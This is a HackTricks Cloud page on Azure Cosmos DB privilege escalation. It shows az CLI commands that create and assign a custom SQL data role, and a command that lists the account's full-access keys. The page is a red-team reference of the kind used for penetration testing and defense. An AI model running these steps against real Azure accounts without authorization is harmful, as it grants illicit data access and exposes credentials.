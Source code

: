 # Az - CosmosDB Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## CosmosDB Privesc
For more information about SQL Database check:

{% content-ref url="../az-services/az-cosmosDB.md" %}
[az-cosmosDB.md](../az-services/az-cosmosDB.md)
{% endcontent-ref %}

### ("Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write", "Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read") & ("Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write", "Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read")

With this permissions you can priviledge scalate giving a user the pemrissions to execute queries and connect to the database. First a definition role is created giving the necesary permissions and scopes.

{% code overflow="wrap" %}
```bash
az cosmosdb sql role definition create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --body '{
      "Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
      "RoleName": "CustomReadRole",
      "Type": "CustomRole",
      "AssignableScopes": [
        "/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
      ],
      "Permissions": [
        {
          "DataActions": [
            "Microsoft.DocumentDB/databaseAccounts/readMetadata",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
          ]
        }
      ]
    }'
```
{% endcode %}

After that the assigment of the definition is given to a user. After this that user can use the DefaultAzureCredential() connection method to execute queries.

{% code overflow="wrap" %}
```bash
az cosmosdb sql role assignment create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --role-definition-id <Random-Unique-ID-used-in-definition> \
    --principal-id <principal_id-togive-perms> \
    --scope "/"
```
{% endcode %}

### "Microsoft.DocumentDB/databaseAccounts/listKeys/action"
With this permission, you can retrieve the primary and secondary keys for an Azure Cosmos DB account. These keys provide full access to the database account and its resources, enabling actions such as data reads, writes, and configuration changes.

{% code overflow="wrap" %}
```bash
az cosmosdb keys list \
  --name <account_name> \
  --resource-group <resource_group_name>

```
{% endcode %}


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
